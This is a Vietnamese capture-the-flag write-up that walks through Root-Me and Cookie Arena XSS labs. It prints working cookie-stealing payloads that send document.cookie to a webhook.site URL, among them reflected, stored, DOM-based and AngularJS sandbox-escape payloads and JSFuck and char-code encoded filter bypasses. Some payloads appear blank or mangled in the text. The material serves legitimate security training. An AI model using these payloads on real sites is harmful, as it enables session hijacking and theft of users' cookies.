# Cross-site scripting (XSS)

## Root-me-1: [XSS - Reflected](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)

Trong lab ta cần lấy được cookie của admin thông qua Reflected XSS

Thử truyền tham số bất kỳ vào `?p`



Khi inspect thì `test` được truyền vào đang ở trong `<a>`, vậy trước hết phải escape ra khỏi attribute `href=` do vẫn còn trong tag `<a>` nên ta có thể thêm 1 event attribute khác như `onmousemove`để thực hiện `alert`

payload: `?p=test' onmousemove='alert(1)`

okay, vậy bây h chỉ cần tạo link webhook và report url cho admin để lấy cookie

payload: `?p=test' onmousemove='document.location="[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)".concat(document.cookie)`



## Root-me-2: [XSS - Server Side](https://www.root-me.org/en/Challenges/Web-Server/XSS-Server-Side)

Trong lab này ta cần đọc được flag trong /flag.txt

Thử sign up, login

Tải thử certification

Như vậy file pdf tải về sửa được sử theo `firstname`, `lastname` và `message` truyền vào khi muốn tải certification

Vì đề bài hint là XSS - Server side nên ta sẽ thử sign bằng payload XSS đơn giản

payload: `<h1>Hello</h1>`

Như vậy trong phần sign up thì `firstname`, `lastname` bị XSS

Để đọc /flag.txt thì cần phải biết ta đang ở directory nào

payload: ``

Đang ở [`file:///tm](file:///tmp/)p`, ta sẽ viết code javascript để gửi HTTP request thông tin của`flag.txt` ở server về webhook

Vào phần sign và tạo 1 tài khoản với `firstname` hoặc `lastname`như payload trên và tải certification để thực hiện payload từ server-side



## Root-me-3: [XSS - Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)

Để hoàn thành lab cần phải lấy được cookie của admin

Test payload vào phần message: ``

→ alert thành công!

Tạo 1 tag `
` để lưu payload trên phần comment của web và gửi cookie của bất kỳ ai vào phần này về webhook

payload: `

`



## Root-me-4: [XSS - Stored 2](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-2)

Thử truyền payload cơ bản vào phần message: ``

Vào inspect, ta có thể thấy payload đã bị HTML entity code



Phần status tự nhiên có màu xanh nhìn khá hay → Thử vào burpsuite thì thấy có thể chỉnh sửa được thành admin

Như vậy phần hiển thị status này có khả năng bị XSS vì nó cũng ở trong 1 tag như thế này

Thử truyền payload vào cookie status: `">` (escape khỏi `class` bằng `">` và `alert`)

alert thành công!

Tạo payload store ở phần comment để gửi cookie của admin về webhook:

payload: `">`



## Root-me-5: [XSS - Stored - filter bypass](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-filter-bypass)

Thử truyền payload cơ bản

Dù đã thử nhiều loại encode và các loại tag khác nhau nhưng vẫn không bypass được cái filter này 😢

Tham khảo:

 https://github.com/iL3sor/rootme-writeup/blob/main/XSS%20-%20Stored%20-%20filter%20bypass%20%5B80%20Points%5D.md

Payload: `<button autofocus onfocus=(eval)("jsfuck encode")></button>`

Giải thích: `onfocus` là 1 event handler và được `autofocus` nên sẽ tự động thực hiện `eval`

[https://jsfuck.com/](https://jsfuck.com/)

[https://github.com/aemkei/jsfuck/blob/main/jsfuck.js](https://github.com/aemkei/jsfuck/blob/main/jsfuck.js)

Jsfuck là có syntax khá phức tạp nhưng nó hoạt động

Thử alert bằng payload trên

alert thành công

Bây giờ chỉ cần encode payload: `document.location="[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)".concat(document.cookie)` sang jsfuck và truyền vào `eval` là đã gửi được cookie



## Root-me-6: [XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction?lang=en)

Thử truyền tham số bất kỳ vào parameter`?number`

Vào inspect, có thể thấy user input được truyền vào `var number = 'aaaaaaaaa';`

Escape khỏi biến `number` và `alert`

payload: `';alert(1)//`

`var number = '';alert(1)//';` (number sẽ có giá trị `''` và được ngắt bằng `;` thực hiện `alert(1)` và comment những phần phía sau `//`)

alert thành công

Thử lấy cookie của bản thân và gửi về webhook

payload: `';document.location="[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)".concat(document.cookie)//` —> Thành công!

Vào phần contact và gửi url chứa payload lấy cookie cho admin 



## Root-me-7: [XSS DOM Based - AngularJS](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)

Chall này sử dụng framework Angularjs, có thể nhận biết khi thấy directive `ng-app` trong code html

Angularjs có chức năng thực hiện code nằm trong dấu `{{ code }}`

Thử truyền `{{ 7*7 }}` vào parameter `?name`

Code được thực hiện!!

Angularjs khác gì so với SSTI?

- DOM-Based XSS (AngularJS) có payload được thực hiện ở phía client-side và không cần template engine (tức là ko có giao tiếp với server)
- SSTI có payload được thực hiện ở server-side

`{{ “hello”.constructor }}` —> String()

`{{ constructor.constructor }}` —>Function() (nằm ở global scope)

[Document Link](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function)

Có thể thấy `Function()` có thể thực hiện code ở global

payload: `{{ constructor.constructor("alert(1)")() }}` (tương đương new Function(”alert(1)”) và được nằm trong `{}` nên alert(1) sẽ được thực thi)

Tạo payload lấy cookie của admin thông qua url và gửi về webhook

payload: `{{constructor.constructor(&#39;document.location="https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=".concat(document.cookie)&#39;)()}}` (Dấu `'` đã bị filter nên sẽ HTML entity encode thành `&#39;`)

—> Gửi được cookie của bản thân thành công

Nhưng vì 1 lý do nào đó mà khi craft vào link payload y trang vậy để lấy admin cookie thì lại không có phản hồi từ webhook

Thử dùng funcion `String.fromCharCode()` chuyển từ ascii sang string

payload: `{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(100, 111, 99, 117, 109, 101, 110, 116, 46, 108, 111, 99, 97, 116, 105, 111, 110, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 119, 101, 98, 104, 111, 111, 107, 46, 115, 105, 116, 101, 47, 50, 100, 53, 99, 97, 51, 102, 101, 45, 51, 54, 50, 101, 45, 52, 57, 102, 97, 45, 97, 48, 98, 53, 45, 57, 98, 49, 99, 55, 54, 102, 56, 97, 50, 56, 48, 63, 100, 97, 116, 97, 61, 39, 46, 99, 111, 110, 99, 97, 116, 40, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 41))()}}` (ascii encode của payload ban đầu)

—> Lấy cookie của admin thành công



## Root-me-8: [**XSS DOM Based - Eval**](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Eval)

Thử truyền tham số bất kỳ vào parameter `?calculation`

Tham số đầu vào phải có dạng giống như regex này: digit (+, -, *, /) digit

Khi truyền 1 phép tính vd như `5+5` thì tham số này sẽ được đưa vào hàm `eval()` như sau

Thử payload: `5 + 5 + alert(1)`    (alert sẽ được thực hiện trong `eval()`)

Web đã filter dấu () —> dùng backticks để thay dấu ()

payload: `5+5+alert`1``

alert thành công, thử gửi cookie của bản thân về webhook

payload: `5+5+prompt`${document.location=[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)+document.cookie}`` (prompt sẽ trả về 1 box thông báo và thực thi lênh bên trong nó vì đang sử dụng ${} trong eval)

Gửi cookie thành công !!

Bây giờ chỉ cần tạo url và gửi cho admin



## Root-me-9: [**XSS DOM Based - Filters Bypass**](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Filters-Bypass)

Truyền tham số bất kỳ vào `?number`

Tham số sẽ được lưu trong biến `number`

Thử thoát khỏi biến number và alert

payload: `'-alert(1)//`

alert thành công

Thử truyền payload lấy cookie thì web lại hiện ra thông báo

payload: `'-document.location='[https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)'.concat(document.cookie)//`

Có thể thử encode hoặc bỏ luôn `https` trong payload để bypass được filter này

payload: `'-document.location='[//webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=)'.concat(document.cookie)//`

—> Không có gì xảy ra

Sau khi check lại payload thì có vẽ như phần `' - document.location` không được thực thi và việc kết hợp toán tử `-` với 1 object là `document.location` thì javascript sẽ cố chuyển object đó về 1 số nào đó và kết quả sẽ là `NaN`

Thử payload khác: `1'?alert`1`:'huhh` —> alert thành công

`var number = '1'?alert`1`:'huhh';` 

(giá trị 1 luôn đúng sẽ thực hiện alert, nếu sai thì sẽ huhh)

payload: `1'?document.location='[//webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data='.concat(document.cookie):'](https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=%27.concat(document.cookie):%27a)huhh`

—> Gửi cookie thành công

Tạo url và report cho admin



## Cookie-Arena: [**Steal Cookie**](https://battle.cookiearena.org/challenges/web/steal-cookie)

Lab này không có filter hay gì hết chỉ cần truyền payload gửi cookie vào tab flag là xong

payload: ``

